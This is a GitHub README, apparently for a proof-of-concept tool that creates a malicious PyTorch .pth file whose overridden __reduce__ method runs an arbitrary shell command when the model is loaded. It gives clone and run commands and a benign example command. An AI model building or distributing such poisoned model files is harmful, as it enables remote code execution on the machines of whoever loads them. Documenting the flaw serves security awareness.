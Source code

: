 # Evil PyTorch Model (.pth RCE Exploit)

A Python script demonstrating a potential security vulnerability in PyTorch's model serialization using `torch.save`.

## Table of Contents

- [Overview](#overview)
- [Usage](#usage)
- [Example](#example)
- [Security Considerations](#security-considerations)
- [License](#license)

## Overview

This script creates an "evil" PyTorch model (`EvilModel`) that showcases a security vulnerability related to PyTorch's model serialization using `torch.save`. The `EvilModel` class overrides PyTorch's `__reduce__` method to execute arbitrary commands passed as arguments during deserialization.

## Usage

1. **Clone the Repository:**

   ```bash
   $ git clone https://github.com/duck-sec/pytorch-evil-pth.git
   $ cd pytorch-evil-pth.git
   ```

2. **Run the Script:**

   Use Python to execute the script, providing a command to execute as an argument. Ensure you have PyTorch installed.

   ```bash
   $ python evil_pth.py '<command>'
   ```

   Replace `<command>` with any shell command you want to execute when the malicious model (`evil_model.pth`) is loaded.

## Example

```bash
$ python evil_pth.py 'touch /tmp/gotya'
Evil model saved as 'evil_model.pth'
```


